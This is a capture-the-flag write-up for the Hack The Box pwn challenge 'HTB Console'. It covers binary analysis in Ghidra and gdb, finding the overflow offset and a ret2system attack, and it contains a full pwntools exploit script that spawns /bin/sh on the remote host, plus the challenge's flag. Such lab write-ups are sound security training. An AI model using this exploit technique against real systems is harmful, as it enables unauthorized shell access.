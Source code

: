 # HTB Console
> Write-up author: jon-brandy
## DESCRIPTION:
Check out the all new HTB Console! Don't try to pwn it though.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209944772-aa89cbe0-2fa5-46b1-9bf5-d0fd234b92c0.png)


2. Check the file type.

> RESULT - 64 bit binary file, stripped(we can't see the functions names)

![image](https://user-images.githubusercontent.com/70703371/209944817-b8dcd94f-e8ac-435d-abe8-d26388dce72b.png)


3. Now, check the binary's protection.

> RESULT - PARTIAL RELRO, NO CANARY FOUND, NO PIE

![image](https://user-images.githubusercontent.com/70703371/210139865-37dd05ac-e900-4ce2-b3a3-47bc8dc43c22.png)


4. Let's decompile the binary using ghidra.
5. When checking every function available, this function seems will be our interest.

![image](https://user-images.githubusercontent.com/70703371/210139951-0bcccbdb-04ec-4402-9806-687d9945d14b.png)


6. Based from it, seems we can do bufferoverflow the local_18 variable then put in the new return address. 
7. Notice there's a system function.

![image](https://user-images.githubusercontent.com/70703371/210140151-482a2d08-367d-4a09-b810-854d971303e3.png)


8. Not only that, we can utilize this one to write to memory.

![image](https://user-images.githubusercontent.com/70703371/210140219-d9820444-9cfc-4c61-abca-9a80ba6d64b2.png)


![image](https://user-images.githubusercontent.com/70703371/210140236-d52a8aa7-f7b1-4cb9-a9d1-70c19e0a5f13.png)


9. Since **NX Enabled**, hence it's useless to inject shellcode. So the attack concept we may use here is `ret2system`.
10. So we need to:

```
- Find the offset of RIP/EIP first.
- Then overflow the buffer of local_18 so we can write the system address of the system function.
- And pass in as a parameter the strings that we've written to the &DAT_004040b0 (data section).
```


11. Now let's make the file executeable by run `chmod`. Then run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210140500-d01fa362-9d91-4e29-9ef4-75653f87c7e0.png)


12. Enter "flag".

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210140506-9c5728fc-b4ca-4f0a-a8c5-db49fd666a35.png)


13. Enter 300 cyclic pattern.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210140540-97ef0523-a031-4e84-94c5-1150507809c3.png)


14. Find the offset of RIP/EIP by copy the first 4 characters in RSP.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210140574-36436338-370e-40e4-b641-01745f718e51.png)


15. Great now we know the offset is 24 bytes.
16. Anyway to make sure every string we enter are send to the data, let's run the binary in gdb again, but this time enter the first input as `hof` and let's set the breakpoint at this offset.

![image](https://user-images.githubusercontent.com/70703371/210140686-3653ea17-964a-4d05-bcf0-644ab8060c4b.png)


![image](https://user-images.githubusercontent.com/70703371/210140696-82039b1e-8f16-4613-b6c3-cd12b51c89f2.png)


> STEPS - I USED GDB-PWNDBG THIS TIME

![image](https://user-images.githubusercontent.com/70703371/210140791-123629c6-c663-4445-9420-21ce882a5127.png)

- Press ctrl + c

![image](https://user-images.githubusercontent.com/70703371/210140807-d8793c6e-f3d2-4fb7-9990-38557b010c26.png)

- Type this:

```
x/8s 0x004040b0
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210140834-e3831145-9892-4ce3-94cf-01b9a1becacb.png)


17. Yepp, it's written there and we have more room there, so it's let us to input `cat flag.txt` etc.
18. Now let's find the offset of system func.

> RESULT - SWITCH TO GDB-PEDA AGAIN, HOWEVER U CAN USE THE SAME COMMAND IN GDB-PWNDBG

![image](https://user-images.githubusercontent.com/70703371/210141064-541e4ae0-5880-4904-b230-2b93d119485d.png)


19. Next we need the **pop rdi**, because the binary is in 64 bit, so the calling convention is if we want to call the system function we need to pop the parameter that we want to pass the system. So since we want to call `system("bin/sh")`, then we need to pop the `bin/sh` string into the **RDI** register.

> POP RDI

```sh
ropper --file htb-console --search "pop rdi"
```

![image](https://user-images.githubusercontent.com/70703371/210141290-3a363f23-e86f-4992-9e54-34f0f1f35646.png)


20. Let's combine all of it to the script.

> THE SCRIPT (RET2SYSTEM)

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './htb-console'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

ripEipoffset = 24 
systemAddr = 0x401040 # can grep it with elf.symbols.system
firstLinedatAddr = 0x4040b0 # first memory of dat
popRdi_offset = 0x401473 # pop rdi offset
p = flat(
    {ripEipoffset: [
        popRdi_offset,
        firstLinedatAddr,
        systemAddr
    ]}
)

sh.sendlineafter('>>', 'hof')
sh.sendlineafter(':','/bin/sh') # fill the dat with /bin/sh string

sh.sendlineafter('>>', 'flag')
sh.sendlineafter(':',p)

sh.interactive()
```

21. Let's run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210146094-6d7702d0-bf05-4fe5-ad21-487910484992.png)


![image](https://user-images.githubusercontent.com/70703371/210146151-338560d5-dd79-4090-a1d1-6717884e4b59.png)


![image](https://user-images.githubusercontent.com/70703371/210146417-10975eab-d9b3-49f3-8ce2-7b50536dabaa.png)


22. Got the flag!

## FLAG

```
HTB{fl@g_a$_a_s3rv1c3?}
```


